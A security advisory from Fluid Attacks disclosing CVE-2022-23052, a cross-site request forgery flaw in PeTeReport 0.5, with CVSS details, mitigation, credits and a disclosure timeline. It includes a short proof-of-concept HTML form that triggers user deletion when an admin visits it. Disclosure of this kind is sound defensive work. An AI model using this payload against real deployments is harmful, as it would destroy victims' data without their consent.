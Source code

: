 ```yaml
---
slug: advisories/jett/
title: PeTeReport 0.5 - Cross-site request forgery
authors: Oscar Uribe
writer: ouribe
codename: jett
product: PeTeReport 0.5
date: 2022-02-09 12:00 COT
cveid: CVE-2022-23052
severity: 4.3
description: PeTeReport 0.5 - Cross-site request forgery
keywords: Fluid Attacks, Security, Vulnerabilities, PeTeReport
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                 |
| --------------------- | ----------------------------------------------- |
| **Name**              | PeTeReport 0.5 - Cross-site request forgery     |
| **Code name**         | [Jett](https://en.wikipedia.org/wiki/Joan_Jett) |
| **Product**           | PeTeReport                                      |
| **Affected versions** | Version 0.5                                     |
| **Fixed versions**    | Version 0.7                                     |
| **State**             | Public                                          |
| **Release date**      | 2022-02-23                                      |

## Vulnerability

|                       |                                                                                               |
| --------------------- | --------------------------------------------------------------------------------------------- |
| **Kind**              | Cross-site request forgery                                                                    |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007) |
| **Remote**            | Yes                                                                                           |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N/E:X/RL:X/RC:X                                    |
| **CVSSv3 Base Score** | 4.3                                                                                           |
| **Exploit available** | No                                                                                            |
| **CVE ID(s)**         | [CVE-2022-23052](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23052)               |

## Description

PeteReport **Version 0.5** contains a Cross Site Request Forgery (CSRF)
vulnerability allowing an attacker to trick users into
deleting users, products, reports
and findings on the application.

## Proof of Concept

Steps to reproduce

1. Create a malicious html file with the following content.

    ```html
    <html>
    <body>
    <script>history.pushState('', '', '/')</script>
        <!--Change ID -->
        <form action="https://127.0.0.1/configuration/user/delete/:id">
        <input type="submit" value="Submit request" />
        </form>
    </body>
    </html>
    ```

2. If an authenticated admin visits the malicious url,
   the user with the correspond id will be deleted.

System Information

* Version: PeteReport Version 0.5.
* Operating System: Docker.
* Web Server: nginx.

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

An updated version of PeteReport is available at the vendor page.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://github.com/1modm/petereport>

**Issue** <https://github.com/1modm/petereport/issues/34>

## Timeline

<time-lapse
  discovered="2022-02-07"
  contacted="2022-02-07"
  replied="2022-02-09"
  confirmed=""
  patched="2022-02-09"
  disclosure="2022-02-23">
</time-lapse>
